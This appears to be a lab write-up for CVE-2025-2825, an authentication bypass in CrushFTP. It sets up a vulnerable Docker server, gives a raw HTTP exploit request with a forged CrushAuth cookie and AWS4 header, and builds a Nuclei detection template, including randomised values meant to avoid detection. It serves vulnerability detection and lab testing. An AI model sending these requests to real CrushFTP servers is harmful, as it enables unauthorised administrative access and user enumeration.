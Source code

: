 # CVE-2025-2825: CrushFTP Authentication Bypass

## Description:
CrushFTP versions 10.0.0 through 10.8.3 and 11.0.0 through 11.3.0 are affected by a vulnerability that may result in unauthenticated access. Remote and unauthenticated HTTP requests to CrushFTP may allow attackers to gain unauthorized access.


## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2025-2825
- https://projectdiscovery.io/blog/crushftp-authentication-bypass/
- https://www.crushftp.com/crush11wiki/Wiki.jsp?page=Update


## Vulnerable Setup:

- Execute the following commands to start a CrushFTP 11.3.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://localhost:8001/WebInterface/login.html to see the CrushFTP WebInterface Login Panel

## Exploitation Steps:

The authentication bypass can be triggered by sending specially crafted requests with manipulated authentication tokens.


HTTP Request


```
GET /WebInterface/function/?command=getUserInfo&c2f=9606 HTTP/1.1
Host: locahost:8081
User-Agent: Mozilla/5.0 (ZZ; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Cookie: CrushAuth=1049161285377_jZiGxXHpBrrLsAEJmBfAaiFsImLZ9606; currentAuth=9606
Origin: http://localhost:8081
Referer: http://localhost:8081/WebInterface/login.html
X-Requested-With: XMLHttpRequest


```


![image](https://github.com/user-attachments/assets/4aed5bed-2227-4998-831b-307ad8a5e4b8)

# Steps to Write Nuclei Template


Define Variables

- To randomize requests and avoid detection, define variables:

```
variables:
  string_1: "{{rand_text_numeric(13)}}"
  string_2: "{{rand_text_alpha(28)}}"
  string_3: "{{rand_text_numeric(4)}}"
```

Create HTTP Requests

- The authentication bypass occurs by manipulating CrushAuth cookies and sending unauthorized requests. Craft raw HTTP requests:

```
http:
  - raw:
      - |
        GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f={{string_3}} HTTP/1.1
        Host: {{Hostname}}
        Cookie: CrushAuth={{string_1}}_{{string_2}}{{string_3}}; currentAuth={{string_3}}
        Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
        Origin: {{RootURL}}
        Referer: {{RootURL}}/WebInterface/login.html
        X-Requested-With: XMLHttpRequest
        Accept-Encoding: gzip


```

Matchers Definition

- To confirm successful exploitation, the response must meet the following conditions:

1️⃣ Status Code
The server should return HTTP 200 (OK), indicating a successful request.

2️⃣ Response Body
The response should contain the username "crushadmin" inside the <user_list_subitem> tag, confirming user enumeration.

3️⃣ Content-Type
The response should be in XML format (text/xml).


```
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "<user_list_subitem>crushadmin</user_list_subitem>"

      - type: word
        part: content_type
        words:
          - "text/xml"

      - type: status
        status:
          - 200
```

## Nuclei Template URL : [CVE-2025-2825](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-2825.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-2825.yaml -u http://localhost:8001 -vv
```